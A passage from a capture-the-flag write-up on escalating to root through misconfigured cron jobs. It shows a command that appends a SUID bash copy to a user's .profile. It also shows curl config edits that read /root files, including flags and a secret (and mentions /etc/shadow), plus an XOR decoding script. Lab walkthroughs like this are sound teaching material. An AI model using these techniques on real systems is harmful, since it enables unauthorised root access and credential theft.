52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
*  *    * * *   root    curl -K /home/F30s/site_check
*  *    * * *   F30s    bash -lc 'cat /home/F30s/health_check'
```
Among the default crontabs there are also 2 custom for the `F30s` user, the first one make a curl request as root and set a configuration file but we still don't have access to that file, then the secondone execute a script.<br>
The interesting part here is the flag `-l` used in the bash command, as the bash help page sudhest:
```bash
man bash
```
output:
```bash
<SNIP>
-l        Make bash act as if it had been invoked as a login shell (see INVOCATION below).
<SNIP>
```
We can now modify the .profile script in the user home directory and when the crontab is executed we can get an RCE.<br>
As RCE i chosed the bash suid in the tmp folder:
```bash
echo -e 'cp /bin/bash /tmp/bash;\nchmod +xs /tmp/bash' >> /home/F30s/.profile
```
After a minute we got RCE and logged in as F30s user!!
    

    

# root

Now we can take a look at the first crontab we saw above:
```bash
*  *    * * *   root    curl -K /home/F30s/site_check
```
Every minute the root user make a request with the `site_check` config file inside the home directory of `F30s` user (that we now controll).<br>
The content of the script is:
```bash
cat /home/F30s/site_check
```
output:
```bash
url = "http://127.0.0.1/health_check"
```
We can modify the config file to make any kind of requests:
```bash
nano /home/F30s/site_check
```
output:
```bash
url = "file:///root/flag2.txt" #we can also get the /etc/shadow file, no luck with cracking
-o "/tmp/flag.txt"
```
Anyway the flag is encrypted, in order to get the kile for the file we need to go back to the past as the `/secret-tip.txt` file said.<br>
So i remembered a file that we couldn't get from the cloud web application:
    

    
Possiamo infatti provare a scaricare il file dalla home directory dell'utente root come abbiamo fatto per la flag:
```bash
cat /home/F30s/site_check
```
output:
```bash
url = "file:///root/secret.txt"

-o /tmp/secret.txt
```
Now we have the secret file, let's see his content:
```bash
cat /tmp/secret.txt
```
output:
```bash
b'C^_M@__DC\\7,'
```
Also the key seems to be encrypted, so in order to extract something with sense i tried some key words from the tip-file from before.<br>
In order to get the flag i modified the previous script:
```python
import pwn

def get_encrypted(passwd):
    return pwn.xor(passwd, b'ayham')

def get_flag(enc_flag,secret):
    return pwn.xor(enc_flag, secret)


enc_password = b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
enc_flag = b'ey}BQB_^[\\ZEnw\x01uWoY~aF\x0fiRdbum\x04BUn\x06[\x02CHonZ\x03~or\x03UT\x00_\x03]mD\x00W\x02gpScL'
enc_secret = b'C^_M@__DC\\7,'
sec_key = "root"
secret = pwn.xor(enc_secret, sec_key)[:-2]

password = get_encrypted(enc_password).decode()

for i in range(0,10):
    for j in range(0,10):
        flag_secret = secret + str(i).encode() + str(j).encode()
        test_flag = get_flag(enc_flag, flag_secret)
        if b"cronjobs" in test_flag and len(flag_secret) < 13:
            secret = flag_secret
            flag = test_flag
            
print(f'[+]Password is: {password}')
print(f'[*]Secret is: {secret}')
print(f'[*]Flag is: {flag}')
```
With this script we also got the last flag!

